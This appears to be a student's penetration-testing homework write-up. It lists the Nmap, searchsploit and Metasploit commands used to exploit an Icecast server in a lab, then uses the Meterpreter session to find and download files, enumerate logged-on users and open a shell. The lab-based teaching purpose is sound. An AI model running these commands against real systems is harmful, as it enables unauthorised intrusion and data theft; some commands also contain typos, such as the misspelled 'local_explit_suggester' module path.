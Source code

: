 
# Rob Myers: Week 17 Homework: Penetration Testing 2

This week I was given access the Icecast server, a free  software for streaming multimedia. 

For a full review of the findings here is a copy of the after action report:

[REPORT](Report2.mht)

Below is commands and exploits used to demonstrate vulnerabilities on the Icecast Server: 

## Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

    * Run the Nmap command that performs a service and version scan against the target.

        ### Answer: **nmap -sS -sV -O -Pn 192.168.0.20**

   ### [nmap-Pictures](IMAGE/OS.md) 
        

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

    * Run the SearchSploit commands to show available Icecast exploits.

       ### Answer: **searchsploit Icecast**

    ### [Searchsploit Pictures](IMAGE/search.md)


3. Now that we know which exploits are available to us, let's start Metasploit:

    * Run the command that starts Metasploit:

        ### Answer: **msfconsole**

    ### [Starting metasploit Pictures](IMAGE/meta1.md) 

4. Search for the Icecast module and load it for use.

    * Run the command to search for the Icecast module:

        ### Answer: **search Icecast**

     ### [Search Icecast Pictures](IMAGE/meta.md) 

    * Run the command to use the Icecast module:

        ### Answer: **use 0** 

    ### [Use the Icecast Module Picture](IMAGE/meta2.md)     

5. Set the RHOST to the target machine.

    * Run the command that sets the RHOST:

       ### Answer: **set RHOSTS 192.168.0.20** 

     ### [Set the RHOSTS Picture](IMAGE/meta3.md)  

6. Run the Icecast exploit.

    * Run the command that runs the Icecast exploit.

    ### Answer: **RUN**

    ### [Running the Exploit Picture](IMAGE/meta4.md) 

    * Run the command that performs a search for the secretfile.txt on the target.

    ### Answer: **search -f * secretfile * .txt**

    ### [Searching for Secretfile.txt Picture](IMAGE/meta5.md)  

7. You should now have a Meterpreter session open.

    * Run the command to perform a search for the recipe.txt on the target:

    ### Answer: **search -f * recipe * .txt**

    ### [Searching for recipe Picture](IMAGE/meta6.md) 

    * Run the command that exfiltrates the recipe*.txt file:

    ### Answer: **download c/Users/IEUsers/Documents/Drinks.recipe.txt**


    ### [Exfiltrates command for recipe.txt](IMAGE/meta7.md) 

    ### [Common Meterpreter Commands](IMAGE/meta8.md) 


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

    * Run the command to use Meterpreters's local exploit suggester 

    ### [Meterpreter Explit Suggester](IMAGE/meta9.md)  

    ### Answer: **run post/multi/recon/local_explit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.

### Answer: **run post/windows/gather/enum_logged_on_users** 

### [View ALL logged on Users](IMAGE/meta10.md)  


B. Open a Meterpreter shell.

### Answer: **shell** 

### [Document the Shell Command](IMAGE/meta11.md) 

C. Run the command that displays the target's computer system information:

### Answer: **sysinfo** 

### [sysinfo information](IMAGE/meta11.md)










    